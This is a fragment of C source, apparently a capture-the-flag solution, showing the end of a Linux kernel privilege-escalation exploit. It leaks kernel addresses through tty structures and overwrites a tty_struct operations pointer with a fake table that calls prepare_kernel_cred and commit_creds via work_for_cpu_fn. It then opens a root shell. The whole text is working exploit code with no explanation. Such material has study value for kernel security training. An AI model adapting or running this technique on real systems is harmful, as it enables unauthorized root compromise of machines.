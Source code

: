 ```cpp

	size_t ptm_unix98_ops_addr = buf_tty[3];
	if ((ptm_unix98_ops_addr & 0xFFF) == 0x320) ptm_unix98_ops_addr += 0x120;
	size_t work_for_cpu_fn_addr =  work_for_cpu_fn_off + ptm_unix98_ops_addr;
	size_t tty_struct_addr = buf_tty[10] - 0x50;
	size_t commit_creds_addr = commit_creds_off + ptm_unix98_ops_addr;
	size_t prepare_kernel_cred_addr = prepare_kernel_cred_off + ptm_unix98_ops_addr;
	kernel_base = prepare_kernel_cred_addr - 0xA9EF0;

	printf("[+] ptm_unix98_ops addr leaked, addr: 0x%lx\n", ptm_unix98_ops_addr);
	printf("[+] work_for_cpu_fn addr leaked, addr: 0x%lx\n", work_for_cpu_fn_addr);
	printf("[+] prepare_kernel_cred addr leaked, addr: 0x%lx\n", prepare_kernel_cred_addr);
	printf("[+] tty_struct addr leaked, addr: 0x%lx\n", tty_struct_addr);

	size_t buf_gift[0x100];
	notegift(buf_gift);
	size_t note_0_addr = buf_gift[0 * 2];
	size_t note_1_addr = buf_gift[1 * 2];
	assert(note_0_addr == tty_struct_addr);
	printf("[+] note_1 addr leaked, addr: 0x%lx\n", note_1_addr);

	buf_tty[0] = 0x100005401;
	buf_tty[3] = note_1_addr;
	buf_tty[4] = prepare_kernel_cred_addr;
	buf_tty[5] = 0;
	write(note_fd, buf_tty, 0); // write to tty_struct

	buf_fake_table[7] = work_for_cpu_fn_addr;
	buf_fake_table[10] = work_for_cpu_fn_addr;
	buf_fake_table[12] = work_for_cpu_fn_addr;
	write(note_fd, buf_fake_table, 1);

	// write(tty_fd, buf_a, 1);
	ioctl(tty_fd, 233, 233);

	read(note_fd, buf_tty, 0);
	printf("[+] prepare_kernel_cred finished, return 0x%lx\n", buf_tty[6]);

	buf_tty[0] = 0x100005401;
	buf_tty[3] = note_1_addr;
	buf_tty[4] = commit_creds_addr;
	buf_tty[5] = buf_tty[6];
	write(note_fd, buf_tty, 0);
	sleep(1);

	// write(tty_fd, buf_a, 1);
	ioctl(tty_fd, 233, 233);

	printf("now uid = %d\n", getuid());

	if (getuid() == 0)
	{
		puts("[+] root now!");
		system("/bin/sh");
	}
	else
	{
		exit(-1);
	}

	return 0;
}
```